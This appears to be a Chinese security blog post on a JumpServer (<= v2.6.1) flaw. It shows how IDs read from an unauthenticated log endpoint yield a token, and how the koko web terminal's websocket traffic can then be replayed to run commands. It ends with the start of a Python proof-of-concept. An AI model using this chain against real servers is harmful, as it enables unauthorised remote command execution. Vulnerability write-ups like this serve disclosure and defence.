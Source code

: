 ![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB8tpNT4ZFVDrH31YqGlSicX3RtmBklsc3LPCyRtM7iaJCVqdib4VvDp0h9fScBLiaXKgDNZIPINGWOtw/640?wx_fmt=png)

```
assset_id=ee7e7446-6df7-4f60-b551-40a241958451
system_user_id=d89bd097-b7e7-4616-9422-766c6e4fcdb8  
user_id=efede3f4-8659-4daa-8e95-9a841dbe82a8
```

可以看到在不同的时间访问这个接口的 asset_id 等都是一样的，所以只用在 **刚刚的未授权日志读取**里找到想要的这几个值就可以获得 token

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB8tpNT4ZFVDrH31YqGlSicXibicg5VzdolcwNX5IZxQxIbicyUJDFsPHLzHDOTrlHZ9nUVYl5doPqAXw/640?wx_fmt=png)

试过了很多，部分可获取，大部分日志中很难找到这些值，利用难度还是挺高的

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB8tpNT4ZFVDrH31YqGlSicXhs33Mws5tAGKLdhaAZXYNezgrDXrI1Kor4ibjPUNoGLQynlHY14BMHw/640?wx_fmt=png)

看一下 koko.js 这个前端文件

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB8tpNT4ZFVDrH31YqGlSicXiaNrVrXJN2O36wrXKdcaibdEdAwWOiclfIqMw0x9Y2ibtIpLAXwGo8vY0w/640?wx_fmt=png)

后端代码 https://github.com/jumpserver/koko/blob/e054394ffd13ac7c71a4ac980340749d9548f5e1/pkg/httpd/webserver.go

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB8tpNT4ZFVDrH31YqGlSicXkghHNnwK3iaqvldvoG46S5QPsCUYPUonTK9W14hiaUedjeVdPNPfYjEg/640?wx_fmt=png)

这里我们就可以通过 获得的 token 来模拟请求

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB8tpNT4ZFVDrH31YqGlSicXo1XZw6Leic3o2cNqVm1VRKicZOicGTGOyT8mF4of6x8EqfNWgWuSNg0BA/640?wx_fmt=png)

成功连接模拟了这个 token 的请求, 可以在 Network 看一下流量是怎么发送的

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB8tpNT4ZFVDrH31YqGlSicXxvUibMEFKibaLo73orQuqmYyyrJGibricwx7Lyc61cCY5L3Pj02K0IgLwQ/640?wx_fmt=png)

模拟连接发送和接发数据

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB8tpNT4ZFVDrH31YqGlSicXSY6w7Cp39fdbDTFB1NbrZLrVE17zhDtAnVvSf2TVUOIYCiacibHMC4rw/640?wx_fmt=png)

这里可以看到我们只要模拟了这个发送，返回的数据和 web 终端是一样的，那我们就可以通过这样的方法来进行命令执行了

漏洞利用 POC
--------

```
POC 里包含两个方法，一个是获取日志文件，另一个是命令执行

命令执行需要从日志中获取敏感数据并写入脚本对应的变量中 (这个感觉利用难度比较高吧，很多找不到这个数据)

接收数据如果卡住请调整 for i in range(7) 这个位置的 7
```

```
import requests
import json
import sys
import time
import asyncio
import websockets
import re
from ws4py.client.threadedclient import WebSocketClient

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mPOC_Des: https://www.o2oxy.cn/                                    \033[0m')
    print('+  \033[34mVersion: JumpServer <= v2.6.1                                     \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                           \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                            \033[0m')
    print('+  \033[36mCmd         >>> whoami                                    \033[0m')
```